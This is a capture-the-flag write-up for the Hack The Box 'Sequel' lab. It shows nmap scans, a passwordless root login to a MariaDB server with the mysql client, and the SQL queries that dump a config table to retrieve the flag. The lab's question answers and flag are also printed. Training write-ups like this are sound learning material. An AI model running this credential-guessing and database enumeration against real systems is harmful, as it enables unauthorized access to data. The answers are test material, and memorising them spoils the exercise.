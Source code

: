 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Sequel (Tier 1)

## <mark style="color:blue;">Description</mark>

* **Tier&#x20;**<mark style="color:green;">**->**</mark> 1
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags&#x20;**<mark style="color:green;">**->**</mark> Vulnerability / Assessment / Databases / MySQL / SQL / Reconnaissance\
  &#x20;             / Weak Credentials

<figure><img src="../../.gitbook/assets/image (118) (1).png" alt=""><figcaption><p><a href="https://app.hackthebox.com/starting-point?tier=1">https://app.hackthebox.com/starting-point?tier=1</a></p></figcaption></figure>

## <mark style="color:blue;">Write-up</mark>

* I started doing an initial scan using [_Nmap_](../../networks/tools-and-utilities.md#nmap)

{% code lineNumbers="true" %}
```bash
nmap -p- -Pn --min-rate 2000 10.129.122.150
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (179) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the first question

<figure><img src="../../.gitbook/assets/image (170) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**3306**_

***

* Then I did an exhaustive scan to get information about the service running on the open port

{% code lineNumbers="true" %}
```bash
nmap -p3306 -sVC 10.129.122.150
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (178) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this and a little research, I answered the next questions

<figure><img src="../../.gitbook/assets/image (171) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**MariaDB**_

***

<figure><img src="../../.gitbook/assets/image (172) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**-u**_

***

* As we found the service running was a [_MariaDB_](https://mariadb.org/) database I used the [_mysql_](../../database-attacks/tools-and-utilities.md#mysql) Linux utility to connect to it. As I didn't have any credentials, I tried using _root_ as username and gained access without being asked for a password

{% code overflow="wrap" lineNumbers="true" %}
```bash
mysql -h 10.129.122.150 -u root
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (180) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this and a little research, I answered the next questions

<figure><img src="../../.gitbook/assets/image (173) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**root**_

***

<figure><img src="../../.gitbook/assets/image (174) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**\***_

***

<figure><img src="../../.gitbook/assets/image (175) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**;**_

***

* With this, I could navigate through the database information using SQL queries. I enumerated the databases present noticing a particular one named _htb_ and accessed it

{% code overflow="wrap" lineNumbers="true" %}
```sql
show databases;
use htb;
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (181) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (182) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about SQL you can go [here](../../database-attacks/sql.md)
{% endhint %}

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (176) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**htb**_

***

* Then I listed the tables in that database and found an interesting one named _config_. So I retrieved all the information from that table and saw there was a parameter called _flag_, which gave me the flag of the machine&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```sql
show tables;
select * from config;
exit
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (183) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (186) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this, I got the root flag and pwned the machine

<figure><img src="../../.gitbook/assets/image (133) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**7b4bec00d1a39e3dd4e021ec3d915da8**_
